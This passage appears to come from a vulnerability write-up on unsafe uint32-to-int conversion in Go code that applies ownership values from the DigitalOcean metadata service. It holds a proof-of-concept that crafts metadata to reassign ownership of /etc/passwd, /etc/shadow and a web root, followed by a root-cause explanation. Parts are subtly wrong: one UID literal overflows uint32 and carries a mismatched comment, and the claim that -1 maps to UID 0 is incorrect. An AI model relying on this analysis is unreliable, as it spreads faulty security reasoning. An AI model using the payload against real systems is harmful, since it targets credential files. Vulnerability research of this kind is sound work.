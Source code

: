 ```go
    } `json:"file_permissions"`
}

func injectMaliciousMetadata() {
    // Simulate malicious metadata response
    maliciousData := MaliciousMetadata{
        FilePermissions: []struct {
            Path string `json:"path"`
            UID  uint32 `json:"uid"`
            GID  uint32 `json:"gid"`
        }{
            {Path: "/etc/passwd", UID: 4294967295, GID: 4294967295},
            {Path: "/etc/shadow", UID: 4294967295, GID: 4294967295},
            {Path: "/var/www/html", UID: 4294968296, GID: 4294968296}, // UID 1000
        },
    }
    
    // This would normally come from DigitalOcean metadata service
    jsonData, _ := json.Marshal(maliciousData)
    fmt.Printf("Malicious metadata: %s\n", string(jsonData))
}
```

## Vulnerability Mechanics
**Root Cause Analysis**:
The vulnerability occurs due to improper integer conversion in Go:

1. **Unsigned to Signed Conversion**:
   ```go
   // On 32-bit systems:
   var uid uint32 = 4294967295  // 0xFFFFFFFF
   var converted int = int(uid) // -1
   
   // On 64-bit systems:  
   var converted int = int(uid) // 4294967295 (but still problematic)
   ```

2. **System Call Behavior**:
   - `os.Chown` uses `int` parameters
   - Negative values have special meaning in Unix systems
   - `-1` typically means "don't change" but can be interpreted as UID 0

3. **Architecture Differences**:
```mermaid
graph LR
    A[uint32: 4294967295] --> B[32-bit: int -1]
    A --> C[64-bit: int 4294967295]
    B --> D[System interprets as UID 0]
    C --> E[System may reject or misinterpret]
```

### Exploit Chaining
1. **Initial Access**:
   - Control over UID/GID values through metadata service
   - Malicious configuration files
